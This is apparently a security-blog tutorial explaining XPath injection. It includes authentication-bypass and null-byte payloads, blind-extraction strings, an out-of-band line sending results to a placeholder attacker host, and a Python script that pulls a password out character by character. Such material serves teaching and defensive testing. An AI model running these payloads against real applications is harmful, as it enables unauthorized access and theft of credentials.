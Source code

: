 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1573306533578-12e23afbf2c6?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHJhbmRvbXx8fHx8fHx8fDE2OTQ0MjU3MDR8&ixlib=rb-4.0.3&q=85
coverY: 188
---
```


# 🐝 Exploring XPath Injection: Basics, Techniques, and Creative Exploitation

````markdown

XPath Injection is an attack technique employed to exploit applications that construct XPath (XML Path Language) queries from user-supplied input for querying or navigating XML documents. XPath is commonly used in web applications to extract data from XML content, such as HTML web pages or XML-based APIs.

## Understanding XPath Queries

XPath queries are used to locate nodes within an XML document based on various criteria. Here are some essential elements and examples:

### Nodes

XPath operates by selecting nodes in an XML document. Common nodes include elements, attributes, and text.

```xpath
/user               # Selects the "user" element.
/user/name          # Selects the "name" element within the "user" element.
/user/*             # Selects all child elements of the "user" element.
````

#### Predicates

Predicates are used to filter nodes based on conditions. They are enclosed in square brackets `[ ]`.

```markdown
/user[name/text()='pepe']                 # Selects the "user" element with a "name" child element containing the text "pepe."
/user[name/text()=''] or '1'='1']         # Selects the "user" element with an empty "name" child element or where '1'='1' (always true).
```

#### Unknown Nodes

In some cases, you may not know the exact structure of the XML document. In such situations, you can use wildcards and functions to navigate.

```xpath
/user/*             # Selects all child elements of the "user" element.
//user              # Selects all "user" elements regardless of their location in the XML.
```

### Exploiting XPath Injection

XPath Injection occurs when an attacker manipulates user input to construct malicious XPath queries, potentially leading to unauthorized data access, authentication bypass, or even remote code execution. Here are techniques commonly used in XPath Injection attacks:

#### Authentication Bypass

Attackers may manipulate user and password input fields to bypass authentication mechanisms.

```xpath
' or '1'='1          # This input would make the query always true, potentially allowing unauthorized access.
```

#### Abusing Null Injection

Null injections can be used to bypass filters and conditions.

```xpath
Username: ' or 1]%00   # This input introduces a null byte ("%00") to potentially bypass filters.
```

#### Blind Exploitation

In some cases, attackers may not receive direct feedback from the application. They can use techniques to infer information based on responses.

```xpath
' or string-length(//user[position()=1]/child::node()[position()=1])=4 or ''='  # This input checks if the length of a specific node is 4 characters.
```

#### Out-of-Band (OOB) Exploitation

OOB attacks involve making external requests to leak data.

```markdown
doc(concat("http://hacker.com/oob/", RESULTS))  # This constructs a request to an external server, potentially leaking data.
```

#### Python Example

Python can be used to automate XPath Injection exploitation. This example demonstrates how to determine the length of a password and extract it character by character.

```python
import requests
import string

flag = ""
length = 0
alphabet = string.ascii_letters + string.digits + "{}_()"

# Determine password length
for i in range(30):
    r = requests.get("http://example.com?action=user&userid=2 and string-length(password)=" + str(i))
    if ("TRUE_COND" in r.text):
        length = i
        break

# Extract password character by character
for i in range(1, length + 1):
    for al in alphabet:
        r = requests.get("http://example.com?action=user&userid=2 and substring(password," + str(i) + ",1)=" + al)
        if ("TRUE_COND" in r.text):
            flag += al
            break
```

### Conclusion

XPath Injection is a potent attack vector that exploits XML-based queries in web applications. Understanding its techniques is essential for both defenders and security professionals to identify and mitigate potential vulnerabilities. However, always ensure ethical and legal testing practices are followed, and only test systems for which you have explicit permission.

```markdown
Note: Replace `"TRUE_COND"` with the actual condition or response content indicative of a successful injection. The provided Python example is a template and should be adapted to the specific target application and conditions.
```

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20injection" %}
Reference&#x20;
{% endembed %}
